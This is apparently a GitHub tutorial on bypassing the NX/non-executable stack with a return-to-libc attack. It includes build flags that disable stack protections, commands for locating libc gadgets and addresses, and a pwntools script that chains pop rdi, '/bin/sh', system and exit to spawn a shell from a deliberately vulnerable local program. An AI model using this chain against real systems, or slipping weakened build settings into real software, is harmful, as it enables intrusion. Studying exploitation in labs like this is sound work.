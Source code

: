 # Bypassing Non-eXecutable stack

NX bit is a mitigation technique used to increase the `difficulty` of running arbitrary code in case of an exploitation of a memory corruption `vulnerability` such as a buffer overflow.

The goal of NX bit is to separate between memory regions containing code to those containing data. That is due to the `“Von Neumann Architecture”`, in which the same memory address space can store both code and data.

Different CPU architectures and operating systems can call this feature in different names. Let us look at a couple of examples. In AMD based CPUs it is called `“NX bit”`, on Intel CPUs **“XD bit”** (Execute Disabled) and on ARM CPUs **“XN bit”** (Execute Never). On the operating system front on Windows, it is called `DEP (Data Execution Prevention)` and on Linux it is called `W^X (Write XOR Execute)`.

With NX bit turned on, our classic approach to stack based buffer overflow will fail to exploit the vulnerability. Since in classic approach, `shellcode was copied into the stack` and return address was pointing to shellcode. But now since stack is no more executable, our exploit fails!! But this mitigation technique is not completely foolproof, hence in this post lets see how to `bypass` NX Bit!!

- By `default` when compiling C program NX bit is enabled.
- To disable it use command

```bash
gcc -z execstack program.c
```

### Return to Libc attack (Bypass NX)

---

The particular attack makes use of code which exists in the always-present C library (libc). For the sake of simplicity, assuming that we already have control over the `RIP register`, then instead of redirecting the control to some memory location in the stack, we will force a call to a carefully chosen existing function which serves our needs as an attacker **(e.g. to spawn a shell)**.

`libc` is a very popular target for these type of attacks as it contains almost every C function while all of these function can be accessed as they are exported. One of these functions is the system(), which has the following syntax:

```C
int system(const char *command)
```

- Find the `system()` function address
- Pass `arguments` to this function
- Find the `exit()` function address, to close the program cleanly.

In the C calling conversion in `64 bit architecture` up to six arguments will be placed to the `RDI, RSI, RDX, RCX, R8 and R9` registers and anything additional will be placed in to the stack.

After the returning from the greet_me function the stack must look like bellow:

---

![Stack](https://miro.medium.com/v2/resize:fit:640/format:webp/1*jo-61Wu9G11Xht7l7PGPJg.png)

1. Place adequate data to overflow the buffer and overwrite the `$rbp` register

2. Overwrite the `RIP` register in order to point to a `POP RDI` instruction followed by a `RET`, this way what ever is on top of the stack (in our case it will be the `“/bin/sh”` string) will be passed to the RDI register and the RET will pop the stack placing the next instruction address to the RIP register→3.

3. The stack contains the `address` of the system() function which will be passed to the RIP (due to the RET from the previous step).

4. When the system() function returns, the RIP register will point to the exit() function, in order to exit our program cleanly.

### Vulnerable Program

---

To make a program vulnerable with only NX bit enabled use the following arguments when compiling program.

```bash
gcc -fno-stack-protector -no-pie -D_FORTIFY_SOURCE=0 program.c -o program
```

<br>

#### Locate the libc library file

Use following command in gdb to locate `libc` loaded address in the program.

```bash
gdb-peda$ vmmap
```

```bash
ldd programexecutable
```

```bash
gdb-peda$ info proc map
```

#### Locate a the gadget (in libc)

To get the pop rdi instruction we can use many tools to get the gadgets from the libc

```bash
ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 | grep "pop rdi ; ret"
```

- You can get `/bin/sh` address using the following commands. The address given by the command will be relative address to libc_base address.Use `(libc_base+/bin/sh)` to get the proper /bin/sh address.

```bash
strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep '/bin/sh'
```

- You can find system function in `gdb` also or in using `readelf`

```bash
readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep system
```

```bash
gdb-peda$ x system
```

### Final Exploit

```python
import struct
from pwn import *
libc_base = 0x00007ffff7c00000
padding  = b"A"*24
#ret      = struct.pack("<Q", libc_base+0x40101a)   # stack alignment
ret      = p64(libc_base+0x40101a)
#poprdi   = struct.pack("<Q", libc_base+0x28715)    # pop rdi
poprdi   = p64(libc_base+0x28715)
#binsh    = struct.pack("<Q", libc_base+0x1c041b)   # /bin/sh
binsh    = p64(libc_base+0x1c041b)
#system   = struct.pack("<Q", 0x7ffff7c55230)       # absolute system address
system   = p64(0x7ffff7c55230)
#exitfunc = struct.pack("<Q", 0x7ffff7c45240)       # exit function absolute address
exitfunc = p64(0x7ffff7c45240)
exploit = padding+ret+poprdi+binsh+system+exitfunc
file = open('exp', 'wb')
file.write(exploit)
```

### 16-Bytes Stack Alignment

The 64 bit calling convention requires the stack to be `16-byte aligned` before a call instruction but this is easily `violated during ROP` chain execution, causing all further calls from that function to be made with a misaligned stack. `movaps` triggers a general protection `fault` when operating on `unaligned` data, so try padding your ROP chain with an extra ret before returning into a function or return further into a function to skip a `push instruction`. We can find an extra RET instruction address in the libc file, following exactly the process we did in the POP RDI, RET gadget.

```py
ret      = p64(libc_base+0x40101a)
```

So one more ret instruciton is added to ake stack aligned. Running the vulnerable program using the output produced by the script above we finally get the shell.

## Additional Links

- [GDB](https://github.com/meharehsaan/intelx86_64/tree/master/gdb)
- [Funcions in assembly](https://github.com/meharehsaan/intelx86_64/blob/master/functions/README.md)
- [Calling conventions 64bit](https://github.com/meharehsaan/intelx86_64/tree/master/funcallconvention)
- [Simple BufferOverflow](https://github.com/meharehsaan/bufferoverflow/tree/master/bufferoverflow/bufferoverflow/README.md)
- [Introduction to x64 Linux Binary Exploitation (Part 2)—return into libc](https://valsamaras.medium.com/introduction-to-x64-binary-exploitation-part-2-return-into-libc-c325017f465)
- [x64 Linux Binary Exploitation Training](https://www.youtube.com/watch?v=gxU3e7GbC-M)

---

Best Regards - [Mehar Ehsaan](https://github.com/meharehsaan)
